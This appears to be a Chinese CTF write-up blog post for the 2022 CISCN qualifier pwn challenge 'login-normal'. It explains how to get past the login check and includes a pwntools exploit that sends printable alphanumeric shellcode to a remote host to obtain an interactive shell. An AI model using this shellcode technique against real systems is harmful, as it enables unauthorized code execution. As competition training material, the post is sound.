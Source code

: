 ```yaml
---
layout: post
title: "2022 ciscn初赛 login-normal wp"
date:   2022-5-30
tags: [ctf_wp]
comments: true
author: wsxk
---
```


是一道shellcode的login题目，第一步是能够过掉登陆验证

分析输入可以知道，每次形式应该为 "opt:number\nmsg:aaaaaa\n\n"的形式

第二步是通过opt1使得认证能够通过，然后opt2 把可打印字符串放入mmap申请的chunk里执行即可。

这里有一个坑点，就是msg你得多输入一个字符，因为它会把后面的那个字符给滤掉，十分狗屎。

```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
io=remote("123.56.87.204",42944)
#io=process('./login')

io.recvuntil("=================")
#gdb.attach(io)
payload = b'opt:1\nmsg:ro0tt\n'
#gdb.attach(io)
io.sendline(payload)
#shellcode = shellcraft.sh()
shellcode=b"RRYh00AAX1A0hA004X1A4hA00AX1A8QX44Pj0X40PZPjAX4znoNDnRYZnCXAA"
payload = b'opt:2\nmsg:'+shellcode+b'\n'
io.recvuntil(">>> ")
#gdb.attach(io)
io.sendline(payload)

io.interactive()
```

吐槽： 可打印shellcode可真难找（

另外两道pwn题...

llvm pwn我是真的不懂出了有什么意义，感觉就是为了pwn而pwn

那个libc 2.34的，没有找到好的资料....